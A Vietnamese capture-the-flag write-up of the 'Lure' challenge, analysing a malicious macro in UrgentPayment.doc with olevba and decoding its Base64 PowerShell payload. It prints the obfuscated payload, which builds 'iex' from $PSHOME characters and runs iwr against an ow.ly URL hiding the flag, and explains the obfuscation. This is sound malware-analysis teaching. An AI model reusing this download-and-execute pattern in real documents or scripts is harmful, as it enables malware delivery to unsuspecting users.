


# Challenge Lure

## 1. Đầu vào challenge

Challenge cung cấp file:

- `UrgentPayment.doc`

Nhận định ban đầu: đây là một file Word kiểu cũ, vì vậy dùng **oletools** để trích xuất và phân tích macro VBA bên trong.

```bash
python3 -m oletools.olevba UrgentPayment.doc
```

### Kiến thức ngoài lề

**Oletools** thường được sử dụng để:

- phân tích file Office dạng OLE
- trích xuất macro VBA
- nhận diện các chuỗi khả nghi
- hỗ trợ phát hiện hành vi độc hại

Trong PowerShell, khi lệnh được truyền qua tham số:

- `-enc`
- `-EncodedCommand`

thì nội dung lệnh thường được biểu diễn dưới dạng **Base64 của chuỗi UTF-16LE**.

---

## 3. Dấu hiệu ban đầu

Sau khi phân tích, thu được một chuỗi nghi là Base64.



Vì payload được truyền qua tham số `-ec`, nên thử **decode Base64 theo UTF-16LE**.  
Kết quả thu được script như sau:



```powershell
pOwErshElL $(
    -jOiN(
        ($PshOMe[4]),
        ("$PsHoME")[+15],
        "x"
    );
)(
    iwr $(
        (
            "{5}{25}{8}{7}{0}{14}{3}{21}{2}{22}{15}{16}{31}{28}{11}{26}{17}{23}{27}{29}{10}{1}{6}{24}{30}{18}{13}{19}{12}{9}{20}{4}" -f
            "B","U","4","B","%7D","ht","R_d","//ow.ly/HT",
            "p:","T","0","_","N","M","%7","E",
            "f","1T","u","e","5","k","R","h",
            "0","t","w","_","l","Y","C","U"
        )
    )
)
```

---

## 4. Phân tích script

### 4.1. Cách script dựng `iex`

Phần đầu của script là:

```powershell
$(
    -jOiN(
        ($PshOMe[4]),
        ("$PsHoME")[+15],
        "x"
    );
)
```

Ở đây:

- `$PSHOME` là biến môi trường có sẵn trong PowerShell
- nó thường có đường dẫn kiểu:

```text
C:\Windows\System32\WindowsPowerShell
```

Từ đó:

- `$PSHOME[4]` → `i`
- `"$PSHOME"[15]` → `e`
- thêm `"x"`

Sau đó dùng `-join` để ghép lại thành:

```text
iex
```

### Ý nghĩa

`iex` là viết tắt của **`Invoke-Expression`**, dùng để thực thi một chuỗi text như lệnh PowerShell.

---

### 4.2. Cách script gọi web request

Ngay sau đó xuất hiện:

```powershell
iwr $( ... )
```

Trong đó:

- `iwr` là alias của `Invoke-WebRequest`
- mục đích là gửi web request tới một URL

---

## 5. Cách script dựng URL

Phần quan trọng tiếp theo là:

```powershell
$(
(
"{5}{25}{8}{7}{0}{14}{3}{21}{2}{22}{15}{16}{31}{28}{11}{26}{17}{23}{27}{29}{10}{1}{6}{24}{30}{18}{13}{19}{12}{9}{20}{4}" -f
"B","U","4","B","%7D","ht","R_d","//ow.ly/HT",
"p:","T","0","_","N","M","%7","E",
"f","1T","u","e","5","k","R","h",
"0","t","w","_","l","Y","C","U"
)
)
```

Đoạn này hoạt động bằng cách:

- lấy các mảnh chuỗi nằm phía sau
- chèn chúng vào các vị trí:
  - `{5}`
  - `{25}`
  - `{8}`
  - ...
- theo đúng thứ tự mà format string yêu cầu

### Kết quả

Khi ghép lại đúng theo logic này, thu được URL:

```text
http://ow.ly/HTB%7Bk4REfUl_w1Th_Y0UR_d0CuMeNT5%7D
```

---

## 6. Lấy flag

Chuỗi trên đang chứa phần flag ở dạng URL-encoded.

Cụ thể:

- `%7B` = `{`
- `%7D` = `}`

Sau khi đọc lại đúng ký tự, thu được flag:

```text
HTB{k4REfUl_w1Th_Y0UR_d0CuMeNT5}
```

---

## 7. Tóm tắt flow phân tích

```text
UrgentPayment.doc
   |
   v
dùng olevba để trích xuất macro
   |
   v
phát hiện chuỗi nghi là Base64
   |
   v
decode Base64 theo UTF-16LE
   |
   v
thu được PowerShell script
   |
   v
phân tích phần dựng `iex`
   |
   v
phân tích phần format string dựng URL
   |
   v
ghép lại thành:
http://ow.ly/HTB%7Bk4REfUl_w1Th_Y0UR_d0CuMeNT5%7D
   |
   v
đọc lại phần URL-encoded
   |
   v
lấy flag
```

---
